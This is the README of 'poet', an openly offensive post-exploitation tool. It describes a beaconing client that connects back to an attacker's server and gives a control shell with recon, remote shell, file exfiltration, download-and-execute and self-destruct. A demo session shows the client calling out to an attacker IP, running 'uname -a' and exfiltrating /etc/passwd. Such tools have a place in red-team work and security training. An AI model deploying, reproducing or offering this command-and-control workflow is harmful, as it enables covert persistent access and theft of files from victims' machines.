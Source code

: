# poet

A simple POst-Exploitation Tool.

## overview

The client program runs on the target machine and is configured with an IP
address (the server) to connect to and a frequency to connect at. If the server
isn't running when the client tries to connect, the client quietly sleeps and
tries again at the next interval. If the server is running however, the
attacker gets a control shell to control the client and perform various actions
on the target including:

- reconaissance
- basic shell
- file exfiltration
- download and execute
- self destruct

## demo

The attacker has gotten access to the victim's machine and downloaded and
executed the client (in verbose mode ;). He/she does not have the server
running at this point, but it's ok, the client waits patiently. Eventually the
attacker is ready and starts the server, first starting a shell and executing
`uname -a`, then exfiltrating `/etc/passwd`. Then he/she exits and detaches
from the client, which continues running on the target waiting for the next
opportunity to connect to the server.

Victim's Machine (5.4.3.2):

```
$ ./client.py 1.2.3.4 10 -v
[+] Poet started with delay of 10 seconds to port 443. Ctrl-c to exit.
[!] (2014-09-06 02:07:03.058921) Server is inactive
[!] (2014-09-06 02:07:13.060840) Server is inactive
[!] (2014-09-06 02:07:23.062512) Server is inactive
[!] (2014-09-06 02:07:33.064214) Server is inactive
[+] (2014-09-06 02:07:43.066828) Server is active
[!] (2014-09-06 02:08:50.403668) Server is inactive
[!] (2014-09-06 02:09:00.405364) Server is inactive
```

Attacker's Machine (1.2.3.4):

```
# ./server.py
[+] Poet server started on 443.
[i] Connected By: ('5.4.3.2', 62209) at 2014-09-06 02:07:43.066092
[+] (2014-09-06 02:07:43.066531) Entering control shell
Welcome to psh, the poet shell!
Running `help' will give you a list of supported commands.
psh > shell
psh > user@server $ uname -a
Linux lolServer 3.8.0-29-generic #42~precise1-Ubuntu SMP Wed May 07 16:19:23 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
psh > user@server $ ^D
psh > exfil /etc/passwd
psh : exfil written to archive/20140906/exfil/passwd
psh > help
Commands:
  exit
  help
  exec
  recon
  shell
  exfil
  selfdestruct
  dlexec
psh > exit
[+] (2014-09-06 02:08:40.401181) Exiting control shell.
[-] (2014-09-06 02:08:40.401328) Poet terminated.
```
